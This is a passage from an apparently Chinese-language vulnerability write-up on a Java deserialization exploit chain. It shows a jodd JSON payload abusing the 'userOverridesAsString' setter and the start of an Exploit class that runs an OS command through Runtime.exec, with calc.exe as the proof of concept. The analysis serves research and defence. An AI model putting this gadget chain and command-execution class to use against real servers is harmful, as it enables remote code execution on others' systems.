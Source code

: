 ```
            `}`
        `}`
        return matched;
    `}`
```

所以POST参数名称可以根据路由中参数确定

**<a class="reference-link" name="2.%20%E6%9E%84%E9%80%A0defaultData"></a>2. 构造defaultData**

根据前面的分析defaultData包含了json反序列的对象以及之后的利用链，首先清楚的是jodd序列化格式

```
`{`"userOverridesAsString":"HexAsciiSerializedMap:xxxx"`}`
```

给上述字符串指定个类型，在json反序列化的时候就会在指定的类中执行setuserOverridesAsString方法参数为后面的value

[![](https://p5.ssl.qhimg.com/t01df7174dd962349c8.png)](https://p5.ssl.qhimg.com/t01df7174dd962349c8.png)



## 0x04 payload编写

最后分析怎么编写payload，同时也是本篇文章分析的重点

### <a class="reference-link" name="0x1%20%E5%87%BA%E7%BD%91payload"></a>0x1 出网payload

<a class="reference-link" name="%EF%BC%881%EF%BC%89%E7%BC%96%E8%AF%91Java%E4%BB%A3%E7%A0%81"></a>**（1）编译Java代码**

```
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class Exploit`{`
    public Exploit() throws IOException,InterruptedException`{`
        String cmd="calc.exe";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    `}`

    private static void printMessage(final InputStream input) `{`
        // TODO Auto-generated method stub
        new Thread (new Runnable() `{`
            @Override
            public void run() `{`
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try `{`
                    while ((line=bf.readLine())!=null)
                    `{`
                        System.out.println(line);
                    `}`
                `}`catch (IOException  e)`{`
                    e.printStackTrace();
                `}`
            `}`
```